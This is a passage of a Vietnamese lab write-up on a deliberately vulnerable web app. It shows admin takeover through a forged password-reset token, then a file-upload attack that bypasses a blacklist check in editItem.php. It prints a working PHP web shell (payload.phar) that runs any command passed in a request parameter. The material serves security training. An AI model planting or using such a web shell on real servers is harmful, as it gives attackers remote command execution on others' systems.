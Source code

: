 <p><img src="/images/secureCode1/11.png" alt="Quên mật khẩu" /><br>Yêu cầu quên mật khẩu</p>
<p><img src="/images/secureCode1/12.png" alt="Token sinh ra" /><br>Token được sinh ra</p>
<p><img src="/images/secureCode1/13.png" alt="Kết quả token" /><br>Kết quả khai thác token</p>

<p><strong>Kết quả:</strong> Đăng nhập thành công với token admin.</p>
<p><img src="/images/secureCode1/14.png" alt="Đăng nhập admin" /><br>Đăng nhập tài khoản admin</p>
<p><img src="/images/secureCode1/15.png" alt="Giao diện admin" /><br>Giao diện quản trị</p>

<h3>2. Tấn công upload file (RCE)</h3>
<p><strong>Mục tiêu:</strong> Tải file độc hại lên để thực thi lệnh từ xa (Remote Code Execution).</p>
<p><strong>Khám phá:</strong> Giao diện admin cho phép thêm/sửa item, bao gồm upload file.</p>
<p><img src="/images/secureCode1/16.png" alt="Chức năng admin" /><br>Chức năng quản trị</p>

<p><strong>Phân tích mã nguồn:</strong></p>
<ul>
  <li><strong>Thêm item (<code>newItem.php</code>):</strong></li>
  <ul>
    <li>Có kiểm tra whitelist (<code>image/jpeg</code>, <code>image/png</code>, <code>image/gif</code>).</li>
    <li>Dùng blacklist (không tối ưu, dễ bị bỏ sót).</li>
  </ul>
  <p><img src="/images/secureCode1/17.png" alt="Code newItem" /><br>Kiểm tra đầu vào newItem</p>
</ul>
<ul>
  <li><strong>Sửa item (<code>editItem.php</code>):</strong></li>
  <ul>
    <li>Chỉ dùng blacklist, không có whitelist -> dễ bị bypass.</li>
  </ul>
  <p><img src="/images/secureCode1/18.png" alt="Code editItem" /><br>Kiểm tra đầu vào editItem</p>
</ul>

<p><strong>Payload:</strong> Tạo file <code>payload.phar</code>:</p>
<pre><code>&lt;?php
if (isset($_REQUEST['cmd'])) {
    echo "&lt;pre&gt;";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "&lt;/pre&gt;";
    die;
}
?&gt;</code></pre>
<ul>
  <li><strong>Lý do chọn <code>.phar</code>:</strong></li>
  <ul>
    <li>Định dạng PHP Archive, ít bị chú ý hơn <code>.php</code>.</li>
    <li>Các định dạng khác như <code>.php7</code>, <code>.phps</code> không hoạt động trong lab này.</li>
  </ul>
</ul>
